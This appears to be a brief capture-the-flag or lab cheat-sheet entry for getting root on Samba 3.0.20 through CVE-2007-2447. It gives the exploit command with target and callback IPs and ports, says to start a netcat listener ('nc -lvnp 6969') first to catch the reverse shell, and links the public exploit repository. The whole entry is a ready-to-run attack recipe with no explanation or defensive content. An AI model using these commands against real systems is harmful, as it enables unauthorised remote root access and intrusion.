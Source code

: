 samba 3.0.20-debian INSTANT ROOT
```
python CVE-2007-2447 10.129.73.246 139 10.10.14.133 6969
```
- start listener `nc -lvnp 6969` before running above command
- [https://github.com/amriunix/CVE-2007-2447](https://github.com/amriunix/CVE-2007-2447)


